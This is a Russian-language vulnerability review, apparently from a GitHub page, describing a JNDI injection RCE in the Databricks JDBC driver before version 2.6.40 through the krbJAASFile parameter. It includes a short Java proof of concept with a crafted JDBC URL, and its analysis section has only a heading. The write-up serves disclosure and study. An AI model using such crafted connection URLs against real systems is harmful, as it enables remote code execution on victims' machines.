










# Обзор #

## Описание уязвимости на github asvisory: ##
https://github.com/advisories/ghsa-jxw2-jvxf-5vrp

## Описание уязвимости: ##

Драйвер Databricks JDBC до версии 2.6.40 потенциально может допускать удаленное выполнение кода (RCE), запуская инъекцию JNDI через параметр URL JDBC. Уязвимость коренится в неправильной обработке параметра krbJAASFile. Злоумышленник потенциально может использовать эту уязвимость для удаленного выполнения кода в контексте драйвера, обманом заставив жертву использовать созданный URL-адрес соединения, который использует свойство krbJAASFile.

## Метод, приводящий к уязвимости ##
javax.naming.InitialContext.lookup

## Репозиторий проекта с уязвимостью: ##

https://mvnrepository.com/artifact/com.databricks/databricks-jdbc
Код можно будет посмотреть, например, в Idea

## PoC: ##

~~~java
public class Main {  
    public static void main(String[] args) throws Exception {  
        String jdbcUrl = "jdbc:databricks://127.0.0.1:443;AuthMech=1;KrbAuthType=1;httpPath=/;KrbHostFQDN=test;KrbServiceName=test;krbJAASFile=jaas.conf";  
        DriverManager.getConnection(jdbcUrl);
    }  
}
~~~

## Коммиты, исправившие уязвимость: ##

Был исправлен в версии 2.6.40. Открытый доступ к коммиту отсутствует
В новой версии удалена поддержка параметра krbJAASFile

# Анализ уязвимости #

